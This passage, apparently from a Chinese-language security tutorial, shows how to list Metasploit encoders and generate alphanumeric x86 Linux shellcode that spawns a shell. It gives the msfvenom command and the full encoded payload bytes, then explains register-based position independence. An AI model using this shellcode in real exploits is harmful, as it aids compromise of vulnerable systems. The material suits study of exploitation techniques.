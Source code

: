 ```
```



**使用metasploit生成Alphanumeric shellcode**

首先查看一下metasploit中有什么编码器，其次查看能实现Alphanumeric的编码器。

```
root@kali ~ msfvenom -l
Framework Encoders
==================
    Name                          Rank       Description
    ----                          ----       -----------
    ...
    x64/xor                       normal     XOR Encoder
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
    ...
```

可以使用的Encoders有x86/alpha_mixed与x86/alpha_upper和x86/unicode_mixed与x86/unicode_upper，不过Unicode encoder是针对类似CVE-2017-7269等宽字节进行编码的。因此在本文中我们使用到的编码器为x86/alpha_mixed。

首先，使用msfvenom来生成一段shellcode并进行编码。

```
root@kali ~ msfvenom -a x86 --platform linux -p linux/x86/exec CMD="sh" -e x86/alpha_mixed -f c     
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 137 (iteration=0)
x86/alpha_mixed chosen with final size 137
Payload size: 137 bytes
unsigned char buf[] =
"x89xe0xdbxd6xd9x70xf4x5ax4ax4ax4ax4ax4ax4ax4a"
"x4ax4ax4ax4ax43x43x43x43x43x43x37x52x59x6ax41"
"x58x50x30x41x30x41x6bx41x41x51x32x41x42x32x42"
"x42x30x42x42x41x42x58x50x38x41x42x75x4ax49x50"
"x6ax66x6bx53x68x4fx69x62x72x73x56x42x48x46x4d"
"x53x53x4bx39x49x77x51x78x34x6fx44x33x52x48x45"
"x50x72x48x74x6fx50x62x33x59x72x4ex6cx49x38x63"
"x70x52x38x68x55x53x67x70x35x50x65x50x74x33x45"
"x38x35x50x50x57x72x73x6fx79x58x61x5ax6dx6fx70"
"x41x41";
```

可以发现，前几个字符x89xe0xdbxd6xd9x70xf4并不是Alphanumeric或者Printable，因为此shellcode的前面数条指令是为了让这段shellcode位置无关，完成了获取shellcode地址并放入通用寄存器中的功能。

然而，我们可以根据不同程序栈中的数据来自己完成将shellcode的地址放入指定的寄存器BufferRegister中的Alphanumeric Instructions。例如，当BufferRegister为ECX寄存器时，可以通过如下命令生成Alphanumeric shellcode。

